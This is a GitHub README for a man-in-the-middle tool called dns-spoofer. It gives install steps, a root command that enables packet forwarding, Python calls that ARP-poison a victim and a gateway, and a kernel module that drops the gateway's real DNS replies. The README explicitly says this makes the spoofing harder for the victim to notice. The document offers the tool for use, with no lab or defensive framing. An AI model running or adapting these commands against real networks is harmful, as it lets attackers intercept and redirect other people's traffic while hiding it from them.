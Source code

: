 [![Build Status](https://travis-ci.org/adw1n/dns-spoofer.svg?branch=master)](https://travis-ci.org/adw1n/dns-spoofer)
![implementation](https://img.shields.io/badge/python-3.4%2C%203.5%2C%203.6-blue.svg)
![versions](https://img.shields.io/badge/implementation-cpython-blue.svg)

![Screenshot](screenshot.gif)

### About
man in the middle attacks

#### Limitations
* Ethernet II networks
* ipv4 only

#### Dependencies / requirements
* libnet-dev
* libpcap-dev
* python3-dev
* c++ compiler with c++11 support

For the "firewall" module:
* linux kernel >=4 (tested on 4.2, 4.4, 4.6 and 4.9)  
For older kernels you will probably have to change some function signatures.
* installed linux headers
### Install

```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer

# If you are going to run setup.py install, then
# I recommend using a virtualenv for this.
python setup.py build
python setup.py install # You could also add directory build/lib... to the PYTHONPATH instead.
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python3  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim's machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
see the [example.py](example.py) file

I haven't implemented the reverse DNS lookups (.in-addr.arpa requests), but this works fine in most cases without them too.
#### Netfilter kernel module
The DNS spoofing presented in example.py works, provided that you are faster than the gateway. This might not always be the case - for example the gateway might be caching the results. In this case the first time the victim tries to ping facebook.com everything might be working as expected, but the next time he asks about facebook.com the gateway will respond immediately. This can result in your response reaching the victim too late. This is super easy to notice in Wireshark.

The additional benefit of blocking gateway's reponses to the spoofed requests is that it is going to be harder to notice the spoofing going around form the victim's point of view.
**!!!WARNING!!!  
Badly written kernel module can screw up your system. I recommend using a VM for this. Your mileage may vary.**

```bash
cd firewall
make
modinfo dnsfirewall.ko # show info about this module


# load the module
sync && sudo insmod dnsfirewall.ko blocked_sites="wp.pl|wikipedia.org|wikipedia.com|youtube.com" gateway=192.168.1.1 victim=192.168.1.100
# Module writes messages to SYSLOG with prefix 'DNS-SPOOFER'.


# remove the module
sync && sudo rmmod dnsfirewall.ko
```

